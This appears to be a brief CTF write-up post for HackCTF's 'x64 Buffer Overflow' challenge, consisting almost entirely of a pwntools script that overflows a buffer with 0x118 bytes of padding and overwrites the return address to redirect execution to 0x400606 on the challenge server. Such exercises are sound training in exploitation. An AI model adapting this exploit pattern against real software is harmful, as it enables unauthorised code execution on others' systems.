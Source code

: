 ```yaml
---
title: "[HackCtf] x64 Buffer Overflow"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3004)

payload = "a"*0x118
payload+= p64(0x400606)

p.sendline(payload)

p.interactive()
{% endhighlight %}
